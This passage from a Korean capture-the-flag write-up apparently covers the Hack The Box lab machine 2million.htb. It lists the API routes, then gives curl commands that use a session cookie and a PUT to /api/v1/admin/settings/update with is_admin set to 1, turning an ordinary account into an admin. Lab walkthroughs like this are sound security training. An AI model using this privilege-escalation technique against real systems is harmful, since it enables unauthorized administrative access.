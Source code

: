 ``` json
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

admin 관련된 항목 중 내 자신이 admin인지 체크하는 항목으로 추정되는 api가 보여 호출하였으나, 당연히 false가 나타난다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# curl -XGET "http://2million.htb/api/v1/admin/auth" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9"
{"message":false}
```

그러던 중 user 단 api에 유사한 `/api/v1/user/auth` 라는 api가 보이기에 호출해보았다. 오...😃 `is_admin`이라는 항목이 매우 변조마렵게 생겼다. 뭔가 `/api/v1/admin/settings/update` 라는 api를 쓰면 되지 않을까싶다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# curl -XGET "http://2million.htb/api/v1/user/auth" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9"
{"loggedin":true,"username":"readmin","is_admin":0}
```

바로 put method를 통해 is_admin을 '1'로 변조하여 전송해보았다. content type을 맞춰주고 다시 전송해보니 email이란 파라미터의 부재를 알려준다. 
``` bash
┌──(root㉿kali)-[/home/user]
└─# curl -XPUT "http://2million.htb/api/v1/admin/settings/update" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -d '{"loggedin":true,"username":"readmin","is_admin":1}'
{"status":"danger","message":"Invalid content type."}

┌──(root㉿kali)-[/home/user]
└─# curl -XPUT "http://2million.htb/api/v1/admin/settings/update" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -d '{"loggedin":true,"username":"readmin","is_admin":1}' -H "Content-Type: application/json"
{"status":"danger","message":"Missing parameter: email"}
```

email 파라미터를 추가하여 전송하였더니...Good..👍 이제 admin으로 진화하였다.
``` bash 
┌──(root㉿kali)-[/home/user]
└─# curl -XPUT "http://2million.htb/api/v1/admin/settings/update" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -d '{"loggedin":true,"username":"readmin","is_admin":1, "email":"readmin@readmin.com"}' -H "Content-Type: application/json"
{"id":13,"username":"readmin","is_admin":1}

┌──(root㉿kali)-[/home/user]
└─# curl -XGET "http://2million.htb/api/v1/admin/auth" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9"
{"message":true}
```
